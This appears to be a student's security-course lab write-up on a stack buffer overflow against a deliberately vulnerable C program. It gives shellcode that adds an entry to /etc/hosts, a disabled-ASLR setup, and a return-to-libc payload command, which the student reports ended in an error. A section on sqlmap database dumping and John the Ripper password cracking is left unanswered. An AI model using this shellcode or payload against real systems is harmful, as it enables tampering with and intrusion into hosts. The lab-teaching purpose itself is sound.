





# Lab #1,22110044,Nguyen Nguyen Toan Khoa, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
 Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:
Description text (optional)
For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy

Then i will compile C asm program and C program to executable code

I will use an older bash and turn off randomly given stack value.
`sudo sysctl -w kernel.randomize_va_space=0`

The stack frame of main function

The pwd of the copy_file: 

Create a global environment varibale using `export my_path="/home/seed/seclabs/copy_file"`
I will find the address of system and exit and that string of varibale:

Address value of system: 0xf7e50db0 will be inserted with format \xb0\x0d\xe5\xf7

Address value of exit: 0xf7e449e0 will be inserted with format \xe0\x49\xe4\f7

Address value of the string of env: 0xffffd94c will be inserted with format \x4c\xd9\xff\xff

So the command will be:
`r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x4c\xd9\xff\xff')")`

And the output: 

error


# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
  
- Install sqlmap.
  
  
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:



**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:


